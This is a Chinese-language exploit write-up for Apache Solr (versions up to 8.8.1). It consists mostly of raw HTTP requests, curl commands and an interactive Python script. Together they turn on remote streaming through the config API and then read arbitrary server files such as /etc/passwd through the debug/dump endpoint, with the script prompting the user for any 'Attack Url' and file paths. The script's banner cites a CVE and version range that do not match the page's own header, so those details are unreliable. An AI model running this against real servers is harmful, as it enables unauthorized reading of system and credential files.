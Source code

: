 <languages   />

漏洞影响
--------

    Apache Solr <= 8.8.1

漏洞利用
--------

首先进入管理员页面，获取core的信息：

    http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json

发送以下数据包

    POST /solr/ckan/config HTTP/1.1
    Host: xxx.xxx.xxx:8983
    Content-Length: 99
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://118.31.46.134:8983
    Content-Type: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    {"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}

文件读取
--------

    POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
    Host: xxx.xxx.xxx.xxx:8983
    Content-Length: 29
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Origin: http://118.31.46.134:8983
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    stream.url=file:///etc/passwd

curl请求为：

    curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
    curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from lxml import etree
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
        print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
        print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
        try:
            response = requests.request("GET", url=core_url, timeout=10)
            core_name = list(json.loads(response.text)["status"])[0]
            print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
            return core_name
        except:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, core_name):
        vuln_url = target_url + "/solr/" + core_name + "/config"
        headers = {
            "Content-type":"application/json"
        }
        data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
            if "This" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_3(target_url, core_name, File_name):
        vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'stream.url=file://{}'.format(File_name)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            if "No such file or directory" in response.text:
                print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
            else:
                print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        core_name = POC_1(target_url)
        POC_2(target_url, core_name)
        while True:
            File_name = str(input("\033[35mFile >>> \033[0m"))
            POC_3(target_url, core_name, File_name)